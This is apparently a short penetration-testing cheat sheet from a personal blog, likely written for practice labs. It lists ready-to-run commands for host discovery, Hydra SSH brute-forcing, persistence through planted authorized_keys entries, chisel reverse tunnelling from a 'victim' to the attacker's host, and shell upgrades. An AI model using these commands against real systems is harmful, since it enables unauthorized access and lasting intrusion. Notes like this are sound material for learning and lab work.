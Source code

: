 ```yaml
---
title: Tips
author: asphixie
date: 2023-03-10 14:10:00 +0800
categories: [Various]
comments: false
---
```


# Tips
## Ping Sweep to discover hosts on the network
```bash
for i in {1..255};do (ping -c 1 172.16.2.$i | grep "bytes from"|cut -d ' ' -f4|tr -d ':' &);done
```

## Bruteforce SSH
Use Hydra :
```bash
hydra -l 'USERNAME' -P FILE_CONTAINING_PASSWORDS -M FILE_CONTAINING_IP_TO_BRUTEFORCE -t 4 ssh
```
## Persistance
Generate SSH key :
```bash
ssh-keygen -t rsa
```
Paste it to authorized_keys :
```bash
echo XXXX >> ~/.ssh/authorized_keys
```
Then, put the file on the target machine.
## Port Forwarding
### Using SSH
To access a locally exposed service on a remote machine :
```bash
ssh -L YOUR_PORT:localhost:PORT_EXPOSED USERNAME@IP_ADDRESS
```
### Using chisel
To redirect a port (here, 3000) when you're in a docker for example (victim = 172.17.0.1 and your host = 10.10.16.8). Firstly, run a chisel server on your host :
```bash
./chisel server -p 5555 --reverse
```
Then, on the docker, redirect to your host from the victim machine :
```bash
./chisel client 10.10.16.8:5555 R:8890:172.17.0.1:3000
```
Then you can access the service with http://localhost:8890/.
## Get a proper shell on reverse shell
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

## Logs all your commands
In order to keep all the commands you've used, paste this at the end of your .zshrc file (located in home) :
```bash
PS1=$'[`date  +"%d-%b-%y %T"`]%{\033[01;31m%} `ifconfig eth0 2>/dev/null | sed -n 2,2p | cut -d" " -f 10`%{\033[00m%} %{\033[01;34m%}%c%{\033[00m%} > '
test "$(ps -ocommand= -p $PPID | awk '{print $1}')" == 'script' || (script -f $HOME/.log/$(date +"%d-%b-%y_%H-%M-%S")_shell.log)
```
You can then just cat logs on a terminal, it will print it out pretty well.
